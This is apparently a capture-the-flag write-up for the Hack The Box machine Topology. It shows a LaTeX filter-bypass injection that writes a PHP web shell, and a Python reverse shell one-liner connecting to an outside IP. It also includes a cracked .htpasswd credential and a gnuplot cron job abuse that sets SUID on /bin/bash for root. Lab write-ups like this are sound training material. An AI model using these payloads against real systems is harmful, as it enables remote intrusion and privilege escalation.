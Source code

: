 ## Solver
Check page-source found subdomain http://latex.topology.htb/equation.php
Add subdomain to hosts
Known that latext have vulnerable, but its filtered

i check hint on topology official discussion htb :( and found "Checkoway, Shacham and Rescorla"

Check the paper, we can bypass the filter like "i" character with "^^69" (hex of "i")
```
\newwrite\outfile
\openout\outfile=banuaa.php
\wr^^69te\outfile{<?php echo shell_exec("python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.73",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'");?>}
\closeout\outfile
```

Got Web Shell
Reverse Shell python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.73",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
Got Reverse Shell

Check Web root (ls -la ~)
Found /dev/.htpasswd
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

Crack using john the ripper
Found password calculus20

Monitor Process using pspy64
```
Found /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; and gnuplot /opt/gnuplot/loadplot.plt
```

Check /opt/ folder and got writeable folder /opt/gnuplot

So we can create .plt contain system() and move it to /opt/gnuplot/

system("chmod +s /bin/bash")
/bin/bash -p

pwned!